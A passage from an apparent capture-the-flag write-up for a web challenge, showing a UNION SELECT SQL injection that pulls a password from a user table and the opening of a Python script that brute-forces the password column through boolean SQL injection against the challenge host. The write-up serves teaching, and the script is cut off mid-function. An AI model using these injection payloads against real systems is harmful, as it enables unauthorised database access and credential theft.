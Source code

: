```text
t35h' union select password from user limit 1#
```
<img src="/images/writeups/sogeti/web/07_result_password.png">

## [](#method-2)Method 2: Using an overkill python script

This is a typicall script that enable bruteforcing a column value based on a
boolean sql injection:

```python
#!/usr/bin/python3

import re, requests, time
from pwn import *


def connect(s, username, password):
    params = dict(username=username, password=password)
    url = 'http://quals.shadow-league.org:8001/register.php'
    s.get(url, params=params)
    url = 'http://quals.shadow-league.org:8001/index.php'
    return s.get(url, params=params)


def parse(content):
    pattern = b'<p class=\'note\'>(.*?)</p>'
    return re.findall(pattern, content)


def forge_payloads(val, flag):
    payload = ('admin\' or ((select ASCII(substr(password, {}, 1)) '
    'from user limit 1){}"{}")#')
    payload1 = payload.format(1+len(flag), '=', val)
    payload2 = payload.format(1+len(flag), '>', val)
    return payload1, payload2


def get_notes(payload, s, p):
    r = connect(s, payload, 'password')
```